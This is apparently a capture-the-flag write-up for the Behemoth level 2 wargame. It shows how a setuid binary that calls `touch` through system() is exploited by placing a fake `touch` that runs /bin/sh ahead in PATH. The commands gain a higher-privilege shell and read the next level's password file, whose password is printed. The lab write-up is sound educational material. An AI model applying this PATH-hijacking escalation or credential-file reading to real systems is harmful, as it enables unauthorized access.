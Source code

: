 # behemoth2

I've SCP'ed the binary to my local directory. Let's take a look.
```
root@kali:~/Crack Me# ./behemoth2


```
When we execute the binary, we see nothing happens. However, upon further inspection, we find that the binary has created a file.
```
root@kali:~/Crack Me# ls
1861
```
Upon inspection, we find the file created is an empty file. However, without looking at the binary, we can already find a vulnerability; since the binary as the ability to call `touch` (obviously, since it created a file), it must have a call to `system`. An interesting consequence of this is when command line commands are called, they are referenced by the PATH environmental variable. Thus, we can exploit this by changing the PATH variable to reference our own `touch` command.
```
behemoth2@behemoth:/behemoth$ mkdir /tmp/touch_command
behemoth2@behemoth:/behemoth$ cd /tmp/touch_command
behemoth2@behemoth:/tmp/touch_command$ echo /bin/sh > touch
behemoth2@behemoth:/tmp/touch_command$ cat touch
/bin/sh
behemoth2@behemoth:/tmp/touch_command$ chmod +x touch
```
Great. Let's update our path variable accordingly.
```
behemoth2@behemoth:/tmp/touch_command$ export PATH=/tmp/touch_command:$PATH
```
And now let's see if our theory was correct.
```
behemoth2@behemoth:/behemoth$ ./behemoth2
$ whoami
behemoth3
$ cat /etc/behemoth_pass/behemoth3
nieteidiel
```
